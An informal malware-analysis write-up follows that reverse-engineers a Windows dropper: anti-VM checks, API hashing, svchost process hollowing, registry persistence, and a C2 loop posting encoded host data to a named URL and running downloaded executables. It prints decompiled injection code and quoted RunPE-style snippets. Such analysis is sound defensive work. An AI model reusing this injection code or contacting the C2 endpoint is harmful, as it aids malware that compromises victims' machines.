







Sample 2
Deep analysis
First it gets the kernel32 base address from the peb and then resolves LdrGetDllHandle
Then it resolves some additional functions from the kernel32 dll handle and storing it into v31
using hashdb we get the functions
then it calls some function with lol
turns out it was openmutex call, so the mutex name is lol
then checks last error from teb equals two (likely ERROR_FILE_NOT_FOUND error code), seems like if mutex opened successful
passing the check, then it iterates over the process searching for any vm processes
passing the check, we arrive at another check for sandboxie dll it tries to gethandle of that dll if succeed we go to that rabbit hole function
Then another check for checking registry keys at system\currentcontrolset\services\disk\enum which contains the name and serial ID of disk (antiVM)
Then does a check to check time elapsed between instruction (antidebugging but does nothing with it nopped)
We arrive at last bit of code which seems like our main functions
it takes in a huge blob likely a packed code
and prepares another variable containing another encoded code
NTSYSAPI NTSTATUS ZwAllocateVirtualMemory(
[in] HANDLE ProcessHandle,
[in, out] PVOID *BaseAddress,
[in] ULONG_PTR ZeroBits,
[in, out] PSIZE_T RegionSize,
[in] ULONG AllocationType,
[in] ULONG Protect
)
Then while debugging running over this function, exits the exe and executes malicious behaviour
Maybe because it starts with modifying the ret address
Setting some breakpoints, noticed it is writing something , some decoded data
decoded more data, likely this is the process it will inject svchost
it is just writing some gibberish now so i will break on that interesting call
it hit that breakpoint, and we see new data written , libraries used for process injection
Now we got out of the function lets skip this processing till we get this last bit
This line sounds interesting, running till that instruction, and letting all deobfuscation write to that function that is called
Then we see the decoded routine, where the process injection happens

Going till the virtualalloc and grabbing the allocated address in the dump
basically what is happening is similar to this code
if (CreateProcessA(szFileName, NULL, NULL, NULL, FALSE, CREATE_SUSPENDED, NULL, NULL, &si, &pi) == FALSE) {
Debug("[Debug] RunPE(): CreateProcessA(): (%lu)\n", GetLastError());
return FALSE;
}
/* Get thread context (processor-specific register data) */
context.ContextFlags = CONTEXT_FULL;
if (GetThreadContext(pi.hThread, &context) == FALSE) {
Debug("[Debug] RunPE(): GetThreadContext()");
}
/* Unmap memory space of program */
pZwUnmapViewOfSection = (PZUVOS)GetProcAddress(GetModuleHandleA("ntdll.dll"), "ZwUnmapViewOfSection");
pZwUnmapViewOfSection(pi.hProcess, (PVOID)pinh->OptionalHeader.ImageBase);
/* Allocate virtual memory for program */
lpAddress = VirtualAllocEx(pi.hProcess, (PVOID)pinh->OptionalHeader.ImageBase, pinh->OptionalHeader.SizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
if (lpAddress == NULL) {
Debug("[Debug] RunPE(): VirtualAllocEx(): (%lu)\n", GetLastError());
return FALSE;
}
And this code also, notice memcpy part i will break at all memcpy to dump the packed malware memcpy in assembly is rep movsb
// create a memory section
fNtCreateSection(§ionHandle, SECTION_MAP_READ | SECTION_MAP_WRITE | SECTION_MAP_EXECUTE, NULL, (PLARGE_INTEGER)§ionSize, PAGE_EXECUTE_READWRITE, SEC_COMMIT, NULL);
// create a view of the memory section in the local process
fNtMapViewOfSection(sectionHandle, GetCurrentProcess(), &localSectionAddress, NULL, NULL, NULL, &size, 2, NULL, PAGE_READWRITE);
// create a view of the memory section in the target process
HANDLE targetHandle = OpenProcess(PROCESS_ALL_ACCESS, false, 1480);
fNtMapViewOfSection(sectionHandle, targetHandle, &remoteSectionAddress, NULL, NULL, NULL, &size, 2, NULL, PAGE_EXECUTE_READ);
// copy shellcode to the local view, which will get reflected in the target process's mapped view
memcpy(localSectionAddress, buf, sizeof(buf));
HANDLE targetThreadHandle = NULL;
And here it is deciding what to inject based on OS 32 or 64 bit ,i get svchost because iam on 64 bit OS.
Then the start of typical process injection, it creates a process with CREATE_SUSPENDED (at push 4)
Our first hit with memcpy, is the malware is copying svchost after mapping it
Our second hit, we see it is copying itself into the svchost
Then it creates suspended process with the copied svchost

Then writes our copied malware into mapped svchost
I debugged the malware into ida then fixed function calls ,types and renaming to make analysis easier
void __cdecl __noreturn sub_300C0(int a1)
{
char *v1; // edx
char *v2; // edi
char *v3; // esi
void *v4; // [esp+0h] [ebp-354h] BYREF
int v5; // [esp+B0h] [ebp-2A4h]
struct _PROCESS_INFORMATION ProcessInformation; // [esp+2CCh] [ebp-88h] BYREF
struct _STARTUPINFOW StartupInfo; // [esp+2DCh] [ebp-78h] BYREF
char *svchostInMEM; // [esp+320h] [ebp-34h] BYREF
int v9; // [esp+324h] [ebp-30h] BYREF
char *v10; // [esp+328h] [ebp-2Ch] BYREF
int v11; // [esp+32Ch] [ebp-28h] BYREF
int v12; // [esp+330h] [ebp-24h]
unsigned int v13; // [esp+334h] [ebp-20h] BYREF
int v14; // [esp+338h] [ebp-1Ch]
_IMAGE_DOS_HEADER *localSelectionAddress; // [esp+33Ch] [ebp-18h] BYREF
int v16; // [esp+340h] [ebp-14h] BYREF
HANDLE v17; // [esp+344h] [ebp-10h]
LPWSTR lpFilename; // [esp+348h] [ebp-Ch]
HMODULE thisFile; // [esp+34Ch] [ebp-8h]
int v20; // [esp+350h] [ebp-4h] BYREF
thisFile = GetModuleHandleW(0);
lpFilename = VirtualAlloc(0, 0x8000u, 0x1000u, 4u);
if ( !lpFilename )
LABEL_26:
ExitProcess(0);
GetModuleFileNameW(0, lpFilename, 0x8000u);
SetEnvironmentVariableW(&Name, lpFilename);
if ( !GetWindowsDirectoryW(lpFilename, 0x8000u)
|| ((v20 = 0, (ZwQueryInformationProcess)(-1, 26, &v20, 4, 0), v20) ? lstrcatW(lpFilename, &off_30094) : lstrcatW(lpFilename, &String2),
v17 = CreateFileW(lpFilename, GENERIC_READ, 1u, 0, OPEN_EXISTING, 0x80u, 0),
v17 == -1) )
{
LABEL_25:
VirtualFree(lpFilename, 0, 0x8000u);
goto LABEL_26;
}
if ( (ZWCreateSection)(&v16, 4, 0, 0, 2, 0x1000000, v17) < 0 )
{
LABEL_24:
CloseHandle(v17);
goto LABEL_25;
}
localSelectionAddress = 0;
v13 = 0;
if ( (NtMapViewOfSection)(v16, -1, &localSelectionAddress, 0, 0, 0, &v13, 1, 0, PAGE_READONLY) < 0 )// svchost
{
LABEL_23:
(ZwClose)(v16);
goto LABEL_24;
}
v1 = &localSelectionAddress->e_lfarlc + localSelectionAddress->e_lfanew;
v13 = *(&localSelectionAddress[1].e_sp + localSelectionAddress->e_lfanew);
v12 = *(v1 + 4);
v14 = 0;
if ( (ZWCreateSection)(&v9, &unk_F001F, 0, &v13, 64, 0x8000000, 0) < 0 )// create memory section at svchost
{
LABEL_22:
(NtUnmapViewOfSection)(-1, localSelectionAddress);
goto LABEL_23;
}
svchostInMEM = 0;
v13 = 0;
if ( (NtMapViewOfSection)(v9, -1, &svchostInMEM, 0, 0, 0, &v13, 1, 0, PAGE_READWRITE) < 0 )
{
LABEL_21:
(ZwClose)(v9);
goto LABEL_22;
}
qmemcpy(svchostInMEM, localSelectionAddress, v13);// copy svchost
v13 = *(thisFile + *(thisFile + 15) + 80); // This file
v14 = 0;
if ( (ZWCreateSection)(&v11, &unk_F001F, 0, &v13, 64, 0x8000000, 0) >= 0 )
{
v10 = 0;
v13 = 0;
if ( (NtMapViewOfSection)(v11, -1, &v10, 0, 0, 0, &v13, 1, 0, PAGE_READWRITE) >= 0 )
{
// copy this file (itself) into memory
qmemcpy(v10, thisFile, v13); // and does nothing with it
memset(&StartupInfo, 0, sizeof(StartupInfo));
StartupInfo.cb = 68;
if ( CreateProcessW(0, lpFilename, 0, 0, 0, CREATE_SUSPENDED, 0, 0, &StartupInfo, &ProcessInformation) )
{
v13 = -1000000;
v14 = -1;
(NtDelayExecution)(0, &v13); // sleep
(NtUnmapViewOfSection)(-1, v10);
v10 = 0;
v13 = 0; // Map svchost into memory
if ( !(NtMapViewOfSection)(v11, ProcessInformation.hProcess, &v10, 0, 0, 0, &v13, 1, 0, 64) )
{
(ZwClose)(v11);
v2 = &svchostInMEM[v12];
*v2++ = 'h';
*v2 = &v10[a1 - thisFile];
v2[4] = -61; // adds `push 28213B9; ret` to svchost in memory
v4 = &unk_10002;
if ( (GetThreadContest)(ProcessInformation.hThread, &v4) )
{
v3 = (v5 - v12);
(NtUnmapViewOfSection)(ProcessInformation.hProcess, v5 - v12);
(NtUnmapViewOfSection)(-1, svchostInMEM);
svchostInMEM = v3;
v13 = 0;
if ( !(NtMapViewOfSection)(v9, ProcessInformation.hProcess, &svchostInMEM, 0, 0, 0, &v13, 1, 0, 64) )
(NtResumeThread)(ProcessInformation.hThread, 0);
goto LABEL_21;
}
goto LABEL_20;
}
}
else
{
(NtUnmapViewOfSection)(-1, v10);
}
}
(ZwClose)(v11);
}
LABEL_20:
(NtUnmapViewOfSection)(-1, svchostInMEM);
goto LABEL_21;
}
Now that we got the big picture, i will set a breakpoint at this location to dump the modified svchost
Then follow address EDI in dissassembler, we find the modified code which is a jump to that location
Following into memory then dumping the file
The sections point to nothing, for example first section points to 400 while its null bytes as it was dumped from memory
So the executable didn’t run, there was an error, i decided to break at NtResumeThread, then run to that function, in windbg attach to the created process svchost and break of entry bp $exentry and run in windbg , and then step over the NtResumeThread
and we get a hit on windbg
First it get the next instruction address by call and pop , where EAX will be at the end address of the first instruction

then it calls a function with that address
and we get peb walking and api hashing

to make it easier i will use ida with windbg debugger with same steps, attach process , run over NtResumeThread , break on entrypoint
we arrive at same push ret
and then it is calling same decrypting function in original malware with a blob of data
We arrive at this compare where it is skipped in original malware (this code changes the dynamic function that will be called later)
Running over some functions, we arive at a patched instruction with int 3 (cc) where it will decode data for the dynamic routine
And here what the code looks like after replicating the patched instructions (notice we are still at the code that decodes the dynamic routine that was skipped in original malware)
The instructions was patched by the malware, to continue debugging, we will return this to normal
and we got a reference from a clean sample
fixed

we arrive at the jump address but it is also patched, so we have to fix it same way from the clean sample

And finally we arrive the main malicious code
First function is a kernel32dll seterror, going into the second , it is also peb walking and api hashing

It gets the volume information and OS version
Then checks if process is 64 or 32 bit
Then sleeps and allocates place in memory
Then it gets path of environment variable src
Then calls a routine , that checks whether iam in admin group or not using this sid S-1-5-32-544 sidInfo

If iam admin it will use all users and run registry , and if not it will just use current user and load registry
Then it used GetTickCount that Retrieves the number of milliseconds that have elapsed since the system was started and masks it to 3 bits (as a way to generate a random number and set that dword variable based on that)
which at the end settles on exe
Then it creates a mutex with My VolumeInfo as a name, Then does GetLastError() != 183 to check ERROR_ALREADY_EXISTS error if mutex already exists
Then it calls a function, which copies our executable into allocated memory , and prepares temp folder variable
Then it gets just the executable name
Then it checks if the file is in the temp folder to do the following code
Next function just allocates heap and another garbage code
Prepares a name of the path executable that will likely copy into it, the executable will be in temp folder with name ms(RANDOM).exe (the random is from str(heapPTR))
Then this blob, to copy the file into temp folder
Then it sets CreationTime, &LastAccessTime, &LastWriteTime of svchost same as the created file in temp
And copies the path of temp folder executable into registry key load
Sets security descriptor of the key to D:(A;;KRWD;;;WD)
A: This stands for "Allow." It specifies that this ACE allows access.
KRWD: These are access rights. Each letter corresponds to a specific set of rights:
K: Read Control
R: Read
W: Write
D: Delete
;;;WD: These are SID (Security Identifier) placeholders. The ;;; indicates that the ACE applies to "Everyone" (the well-known SID for the Everyone group).
The WD part specifies that this ACE applies to the "Everyone" group.
Then deletes the original file
Next in the program flow, it calls 3 routines which are just noise
First one, enumerates all registry values under Software\\microsoft , and search for that random number(i think) and does nothing with the return
Second function , enumerates all registry values under Software\\microsoft , and checks if type is reg_sz, and calls every software there
and sets the directory to %alluserprofile%
Third function calls www.update.microsoft.com
Now onto the main function, it is in an infinite loop with a sleep at the end
It first prepares a string with some of my info like id , admin or not (to know which machine it is running on)
Then calls a loop that will break at first round (junk code)
Encodes my info
Then calls sub_2EC0FC1 with my data
Which is a base64
Then enter an infinite loop (to ensure data send, will break on data sent), and calls postreq with my encoded data
and this url http://filer.comeze.com/panel/image.php
Into the postreq function, first it removes http:// from the url
then removes what is after /
Then does series of checks to try to resolve the host
we got ip 1677745305 converting it to ip we get
starts the connection
Then it checks if it got our info sends it as post request else just sends a get request, and gets the response in v13
And returns the response

Decodes the response, then calls a routine with that response
In the function, it does some processing, then call another function with the processed response
And based on the response it does multiple code cases
First case, it downloads an executable to %src% with name [Random].exe, then creates a process with that exe
Second case, gets response data and pass it to sub_372119 and then saves the [Random].exe into software\microsoft registry
If there was error (miscalc) it would send the result as post request
sub_372119 is same as we saw in orignial malware, it likely write a dynamic routine
Third case, writes a file into temp folder with random name , and starts a process as that executable
Fourth case , Writes an executable as ms[Random].dat (from The post request response)inside %alluserprofile%
Fifth case is a cleanup deletes the executable and the registry created
Sixth case runs what is in Load registry as a created process
Seventh case it is retuning software\microsoft registry access to Everyone and does a cleanup of load registry
Then at the very end does a cleanup and deletes the file